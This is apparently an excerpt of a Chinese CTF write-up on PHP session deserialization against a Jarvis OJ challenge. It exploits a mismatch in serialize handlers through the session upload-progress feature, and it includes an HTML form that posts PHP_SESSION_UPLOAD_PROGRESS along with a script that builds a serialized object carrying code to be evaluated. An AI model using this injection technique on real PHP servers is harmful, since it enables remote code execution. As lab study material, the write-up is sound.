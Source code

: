 ```plaintext
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('sessiontest.php'));
}
?>
```

先来看一看phpinfo里的内容 php版本：5.6.21
**php大于5.5.4的版本中默认使用php_serialize规则**

![](../../_Attachment/php反序列化入门.assets/image-20240606175004522.png)


默认为php_serialize而index.php中又使用了php，反序列化和序列化使用的处理器不同，由于格式的原因会导致数据无法正确反序列化，那么就可以通过构造伪造任意数据。

![](../../_Attachment/php反序列化入门.assets/image-20240606175016307.png)


> PHP手册
> Session 上传进度
> 当 session.upload_progress.enabled INI 选项开启时，PHP 能够在每一个文件上传时监测上传进度。 这个信息对上传请求自身并没有什么帮助，但在文件上传时应用可以发送一个POST请求到终端（例如通过XHR）来检查这个状态
> 当一个上传在处理中，同时POST一个与INI中设置的session.upload_progress.name同名变量时，上传进度可以在\$_SESSION中获得。 当PHP检测到这种POST请求时，它会在$_SESSION中添加一组数据, 索引是 session.upload_progress.prefix 与 session.upload_progress.name连接在一起的值。

了解了之后，就可以通过POST方法来构造数据传入`$_SESSION`
构造POST提交表单

```plaintext
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

构造序列化字符串

```plaintext
<?php
class OowoO
{
    public $mdzz='print_r(dirname(__FILE__));';
}
$obj = new OowoO();
$a = serialize($obj);

var_dump($a);
```
